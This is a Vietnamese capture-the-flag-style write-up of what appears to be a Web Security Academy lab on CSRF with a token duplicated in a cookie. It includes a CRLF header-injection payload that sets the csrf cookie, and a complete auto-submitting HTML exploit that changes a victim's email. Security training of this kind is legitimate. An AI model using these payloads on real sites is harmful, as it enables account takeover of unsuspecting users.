 # CSRF where token is duplicated in cookie

### Yêu cầu: Tạo thẻ HTML để tấn công CSRF thay đổi email của tài khoản người dùng

### Hướng làm: 

Đầu tiên, ta đăng nhập và tài khoản `wiener:peter` sau đó bắt request của bước thay đổi email.

![image](https://user-images.githubusercontent.com/72268643/158011350-ef24c9fc-6b79-4301-9454-575b10a9af0f.png)

Chúng ta thấy rằng cả cookie và token xác thực đều có giá trị là `csrf=NbTObOWB5JaRonW8qAEeKV3mOj4ugCm5`. Cookie và token sẽ được so sánh và đồng ý thực hiện hành động nếu giống nhau. Mình có thử thay đổi giá trị đó thành 1 giá trị bất kì và kết quả trả về thành công thay đổi email.

![image](https://user-images.githubusercontent.com/72268643/158011471-4a069abc-2bfc-4773-b2c5-189f948c1d6f.png)

Vậy nên nếu chúng ta có thể thêm/ghi đè cookie `csrf` sau đó gửi 1 request với giá trị token tương tự thì ta có thể bypass và thực hiện hành động đó.

Đầu tiên, ta sẽ thực hiện bước ghi đè thông qua bắt request thanh công cụ search:

![image](https://user-images.githubusercontent.com/72268643/158011657-2f8b3eb6-abe5-438f-a1c3-bcc67c4e25b3.png)

Sau đó ta thực hiện việc ghi đè cookie `csrf` bằng cách thêm `%0d%0aSet-Cookie:%20csrf=cuong` sau đường dẫn 

![image](https://user-images.githubusercontent.com/72268643/158011807-6efa87e2-84fa-40aa-aef7-69c9889ff023.png)

Set cookie thành công. Cuối cùng, chúng ta sẽ viết PoC để tấn tới nạn nhân theo mẫu sau:
```
<html>
  <body>
    <h1>Hello World</h1> <!-- Phần được hiển thị-->
    <iframe style="display:none;" name="csrf-iframe"></iframe> <!-- Để ẩn thẻ form khi hiển thị tới nạn nhân -->
    <form action="https://acda1fd11ec7ab69c04c0c1a007900ec.web-security-academy.net/my-account/change-email" method="POST" id="csrf-form">
      <input type="hidden" name="email" value="victimmmm&#64;gmail&#46;com">
      <input type="hidden" name="csrf" value="cuong" />
    </form>
    <img style="display:none;" src="https://acda1fd11ec7ab69c04c0c1a007900ec.web-security-academy.net/?search=hat%0d%0aSet-Cookie:%20csrf=cuong" onerror="document.forms[0].submit()">
  </body> <!-- Thẻ này để ghi đè cookie csrf-->
</html>
```
Sau đó gửi lên server và gửi đến cho nạn nhân và hoàn thành lab.
